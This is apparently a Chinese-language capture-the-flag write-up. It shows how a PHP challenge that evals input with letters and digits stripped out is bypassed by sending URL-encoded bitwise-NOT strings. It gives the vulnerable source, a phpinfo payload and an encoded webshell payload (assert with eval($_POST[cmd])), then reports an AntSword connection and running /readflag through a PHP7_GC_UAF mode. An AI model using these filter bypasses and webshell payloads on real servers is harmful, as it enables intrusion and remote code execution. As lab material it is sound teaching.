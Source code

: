 ### URL 编码取反绕过

话不多说，直接上题

![](https://pic1.imgdb.cn/item/67b34f65d0e0a243d400516e.png)

打开网页给出了源码

```php
<?php
error_reporting(0);
if(isset($_GET['code'])){
            $code=$_GET['code'];
                    if(strlen($code)>40){
                                        die("This is too Long.");
                                                }
                    if(preg_match("/[A-Za-z0-9]+/",$code)){
                                        die("NO.");
                                                }
                    @eval($code);
}
else{
            highlight_file(__FILE__);
}
```

我们将 php 代码 URL 编码后取反，我们传入参数后服务端进行 URL 解码

这时由于取反后，会 URL 解码成不可打印字符，这样我们就会绕过

即，对查询语句取反，然后编码

在编码前加上 ~ 进行取反，括号没有被过滤，不用取反

```php
//?code=phpinfo();
?code=(~%8F%97%8F%96%91%99%90)();
```

![](https://pic1.imgdb.cn/item/67b3554dd0e0a243d400525b.png)

构造木马

```php
$str1 = 'assert';
echo urlencode(~$str1);
$str2 = '(eval($_POST[cmd]))';
echo '\n';
echo urlencode(~$str2);

// %9E%8C%8C%9A%8D%8B\n%D7%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%9C%92%9B%A2%D6%D6
```

蚁剑成功连接

![](https://pic1.imgdb.cn/item/67b3564dd0e0a243d4005279.png)

最后借助蚁剑插件选择 PHP7_GC_UAF 模式运行 /readflag

![](https://pic1.imgdb.cn/item/67b35791d0e0a243d40052ca.png)